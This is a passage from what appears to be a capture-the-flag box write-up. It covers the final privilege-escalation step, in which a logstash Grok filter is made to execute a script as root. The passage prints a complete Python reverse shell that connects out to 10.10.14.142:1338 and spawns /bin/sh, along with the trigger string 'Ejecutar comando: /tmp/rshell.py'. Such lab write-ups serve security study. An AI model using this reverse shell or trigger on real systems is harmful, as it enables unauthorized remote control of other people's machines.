 There&#8217;s multiple ways to do it, but creating a python script for the reverse shell and calling the script with the Grok command should work. My reverse shell script:

{% highlight python %}
#!/usr/bin/python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.142",1338))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

And the Grok command to send:

{% highlight plain_text %}
Ejecutar comando: /tmp/rshell.py
{% endhighlight %}

And it&#8217;ll take a little while for the logstash routine to run the payload, but it does eventually work!

<img class="alignnone size-full wp-image-375" src="/assets/img/2019/10/2019-10-04_14h30_08.png" /> 

From there, just grab the root flag and this box is done!!

&nbsp;